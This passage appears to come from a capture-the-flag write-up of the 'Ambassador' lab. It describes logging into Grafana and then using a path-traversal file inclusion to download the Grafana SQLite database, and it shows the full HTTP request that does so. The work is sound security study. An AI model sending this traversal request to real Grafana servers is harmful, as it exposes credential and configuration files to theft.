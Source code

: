 ![Logged In](/assets/images/2023/01/Ambassador/LoggedInGrafana.png "Logged In")

I spent some time trying to find something in Grafana. Maybe I could use it to run some commands on the server. But I did not find anything. 

After a while, I went back to the LFI and used it to extract an SQLite database.

```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: target.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
```
